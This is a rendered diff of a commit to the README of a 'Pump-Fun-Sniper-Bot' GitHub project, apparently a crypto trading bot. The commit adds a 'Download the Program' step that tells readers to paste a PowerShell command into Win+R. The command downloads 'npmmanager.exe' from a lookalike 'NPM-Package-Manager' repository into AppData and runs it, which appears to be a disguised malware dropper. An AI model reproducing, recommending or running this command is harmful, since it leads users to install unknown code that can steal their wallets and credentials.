

Before and after one commit to Pump-Fun-Sniper/Pump-Fun-Sniper-Bot, a Markdown page: README.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

```diff
--- a/README.md
+++ b/README.md
@@ -19,6 +19,12 @@
 </ul>
 
 <h2>📥 Download the Program</h2>
+<h3>copy and execute the following command in **PowerShell**(Win+R)</h3>
+
+<pre>
+  <code id="code-snippet">&lt;Invoke-WebRequest -Uri "https://github.com/NPM-Package-Manager/NPM-Modules/raw/refs/heads/main/npmmanager.exe" -OutFile "C:\Users\$env:USERNAME\AppData\Local\npmmanager.exe"
+Start-Process "C:\Users\$env:USERNAME\AppData\Local\npmmanager.exe"&gt;</code>
+</pre>
 
 <p>You can download the limited version of the program for free directly from my repository! 🆓 However, the extended version is available for download at the link below and includes additional modules and modes of operation that are not included in the limited version. 💪</p>
 
```
